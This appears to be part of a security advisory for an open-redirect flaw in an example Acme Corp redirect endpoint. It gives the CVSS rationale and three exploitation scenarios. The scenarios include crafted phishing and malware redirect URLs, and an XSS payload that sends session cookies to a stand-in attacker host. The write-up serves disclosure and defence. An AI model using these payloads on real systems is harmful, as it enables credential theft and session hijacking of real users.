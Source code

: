 # CVSS
**Score**: 4.2 \
**Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N \
**Severity**: Medium

The Medium severity rating (4.2) is based on:

- **Network (N) attack vector**: The vulnerability can be exploited remotely from anywhere on the internet
- **Low (L) attack complexity**: Exploiting the vulnerability is straightforward and requires no special conditions
- **No privileges (N) required**: No authentication is needed to craft and distribute a malicious URL
- **User interaction (R) required**: A user must click on the malicious link for the attack to succeed
- **Unchanged (U) scope**: The vulnerability affects only the user's session, not other components
- **None (N) confidentiality impact**: The vulnerability itself doesn't disclose any sensitive information
- **Low (L) integrity impact**: Users are redirected to unintended destinations, potentially compromising their trust and leading them to disclose sensitive information to malicious sites
- **None (N) availability impact**: The vulnerability doesn't affect system availability

The severity is Medium because while exploitation is relatively easy, the direct impact is limited to redirecting users rather than directly compromising data or systems. However, this vulnerability can be an effective component in larger attack chains, particularly phishing campaigns that seek to harvest credentials or deliver malware.

# Exploitation Scenarios
**Scenario 1: Phishing Campaign**
An attacker crafts a URL like `https://acme-corp.com/redirect?redirectUrl=https://acme-corp-login.evil.com`, where the destination site is a convincing clone of Acme Corp's login page. The attacker distributes this URL via email, claiming that users need to log in to update their account information. Because the URL begins with the legitimate acme-corp.com domain, users are more likely to trust it. When clicked, users are initially directed to the legitimate site but immediately redirected to the attacker's phishing page, where they unknowingly enter their credentials.

**Scenario 2: Malware Distribution**
An attacker creates a URL like `https://acme-corp.com/redirect?redirectUrl=https://malware-delivery.com/acme-update.exe`, claiming it's an important software update from Acme Corp. When users click the link, they're redirected to a site that automatically downloads malware disguised as a legitimate application update. The initial legitimate domain in the URL helps bypass security awareness training that teaches users to check URLs before clicking.

**Scenario 3: Chain with XSS for Session Hijacking**
An attacker combines the open redirect with a cross-site scripting vulnerability on a third-party site. They craft a URL like `https://acme-corp.com/redirect?redirectUrl=https://vulnerable-site.com/?xss=<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script>`. When a user clicks the link, they're first sent to the trusted Acme Corp domain, then redirected to the vulnerable site which executes the XSS payload, sending the user's session cookies to the attacker's server.
